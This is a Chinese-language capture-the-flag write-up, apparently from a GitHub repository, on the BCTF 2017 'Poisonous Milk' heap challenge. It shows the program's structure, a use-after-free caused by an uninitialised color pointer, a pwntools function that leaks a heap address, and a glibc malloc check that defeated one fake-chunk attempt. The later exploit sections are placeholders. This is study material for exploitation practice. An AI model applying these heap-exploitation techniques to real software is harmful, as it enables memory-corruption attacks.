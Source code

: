 
## Struct

通过逆向和调试可以比较清楚的理解程序中相关的结构，因为没找到好的画图软件，所以贴上dalao的一个图orz<br>
![Struct](pmilk_diagram.png)

同时附上链接<br>
[usf poisonous_milk](http://uaf.io/exploitation/2017/04/17/BCTF-2017-PoisonousMilk.html)


## Vuln


![vuln0](vuln0.png)
对结构中的color指针进行赋值<br>
但是如果我什么都不输入，这里就不会对color指针赋值，那么我只要先申请1个堆<br>
另外一个是drink函数，可以对其进行利用。<br>

```c++
+0   str_xxxx0xxxxxx
+8   ???????----size
+16  color_p0---str_p0
```

接着释放它，由于程序中先释放字符串对应的堆，然后释放指针相关的，所以释放完之后，color处对应就有指向堆的指针heap_fkp0<br>
再申请0，并且输入color table中不存在的元素，使得color处的值不变(不赋值，此时就是heap_fkp0)<br>
而heap_fkp0正好指向的地方存了堆相关的指针<br>
下面只要通过查看该结构信息即可获取堆的地址<br>


```python
def s_leak():
    put_milk("a"*0x08+"\n", "red")
    remove_milk(0)
    fake_chunk0 = p64(0x91).ljust(0x44, 'c') + '\n'
    put_milk(fake_chunk0, "none")
    view_milk()
    io.recvuntil("[0] [")
    lk_heap_addr = u64((io.recvuntil("]")[:-1].ljust(8, chr(0)))) - 0x78
    log.info("heap address: "+hex(lk_heap_addr))
```

## exp

### 模仿babyuse
参考 [uafio](http://uaf.io/exploitation/2017/04/17/BCTF-2017-PoisonousMilk.html)<br>
在和babyuse一样尝试之后，利用0x55作为伪size，但是在实际运行之后，在malloc中出问题了，分析了一下。

```assembly
.text:000000000008361B                 test    al, 4
.text:000000000008361D                 lea     rcx, dword_3C3B20
.text:0000000000083624                 jz      short loc_83633
.text:0000000000083626                 lea     rax, [rdx-10h]
.text:000000000008362A                 and     rax, 0FFFFFFFFFC000000h
.text:0000000000083630                 mov     rcx, [rax]
```
发现malloc会堆fastbin的地址检查，要是在**0FFFFFFFFFC000000h**之外，这里就会出错。orz

### house of orange

新姿势

### 另外

新姿势

## Reference

1. http://brieflyx.me/2017/ctf-writeups/bctf-2017-2pwn/
2. https://www.xctf.org.cn/information/4603ec7f0031408acca073b80edb63744f92bacb/
